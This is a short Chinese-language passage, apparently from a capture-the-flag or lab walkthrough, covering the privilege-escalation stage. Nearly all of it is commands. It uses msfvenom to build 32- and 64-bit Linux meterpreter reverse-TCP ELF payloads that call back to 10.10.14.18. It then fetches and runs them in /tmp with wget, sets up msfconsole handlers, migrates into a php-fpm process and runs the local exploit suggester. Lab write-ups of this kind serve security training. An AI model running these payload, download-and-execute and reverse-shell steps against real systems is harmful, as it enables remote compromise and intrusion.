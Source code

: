 ## 提权
```
kali生成恶意载荷
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.10.14.18 LPORT=445 -f elf -o w.elf
```
shell执行下载：

```
python -c 'import pty;pty.spawn("/bin/bash")'
wget http://10.10.14.18/w.elf -P /tmp
 chmod +x w.elf

```
kali执行监听：

```
msfconsole
handler -H 10.10.14.18 -P 445 -p linux/x86/meterpreter/reverse_tcp

wget http://10.10.14.18/w.elf -P /tmp

```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/4.PNG)

```
meterpreter执行的命令
ps
migrate 993
993    872    php-fpm7.1         x86_64  www-data         .
```

## 生成64位的payload
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.18 LPORT=446 -f elf -o w64.elf

handler -H 10.10.14.18 -P 446 -p linux/x64/meterpreter/reverse_tcp

wget http://10.10.14.18/w64.elf -P /tmp
./w64.elf

use post/multi/recon/local_exploit_suggester
set SESSION 6
run
```
